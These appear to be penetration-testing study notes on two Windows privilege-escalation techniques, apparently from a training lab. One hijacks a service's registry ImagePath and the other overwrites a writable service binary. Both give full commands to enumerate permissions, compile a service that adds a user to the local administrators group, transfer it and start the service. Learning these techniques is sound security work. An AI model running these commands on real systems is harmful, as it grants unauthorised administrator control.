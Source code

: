 ## Service Escalation - Registry

### What is it

- If we have admin rights of a registry key in service we could use this to make an executable run with a service (add a user, get a shell, ...)

### Enumeration

- In a powershell prompt type `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`  
![image](https://user-images.githubusercontent.com/96747355/162577548-662dd3db-2722-40c8-ae19-3ae386d32a90.png)  

### How to exploit

- We will use this [C script](https://github.com/sagishahar/scripts/blob/master/windows_service.c)
- We will modify the whoami command: `system("whoami > c:\\windows\\temp\\service.txt");`  we will add this instead `cmd.exe /k net localgroup administrators user /add` so our script now looks like this: `system("cmd.exe /k net localgroup administrators user /add");`
- We will compile it `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
- Let's now get the the exe file in our target (python http server -> browser in our target to dl the file) and put it where we have write rights (in the example it is going to be C:\Temp)
- In a cmd from our target `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`
- Now we just need to start the service `sc start regsvc`
- `net localgroup administrators` we can see that our user is now in the administrators group

## Escalation via Executable Files

### What is it

- Abusing an executable that we have permissions on

### Enumeration

- `powershell -ep bypass`
- `. .\PowerUp.ps1`
- `Invoke-AllChecks`  
![image](https://user-images.githubusercontent.com/96747355/162591193-6d2cec98-1e15-492e-b129-001c59b1ae84.png)  

**OR**

- If we know what program it is we can just do `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"` where File Permissions Service is the program we want to abuse  
![image](https://user-images.githubusercontent.com/96747355/162591258-02f01743-1c36-400c-9c13-539c42db8a79.png)  

### How to exploit

- We will use this [C script](https://github.com/sagishahar/scripts/blob/master/windows_service.c)
- We will modify the whoami command: `system("whoami > c:\\windows\\temp\\service.txt");`  we will add this instead `cmd.exe /k net localgroup administrators user /add` so our script now looks like this: `system("cmd.exe /k net localgroup administrators user /add");`
- We will compile it `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
- Let's now get the the exe file in our target (python http server -> browser in our target to dl the file) and put it where we have write rights (in the example it is going to be C:\Temp)
- In the target cmd `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
- `sc start filepermsvc`
- Our user should be in the local administrators group
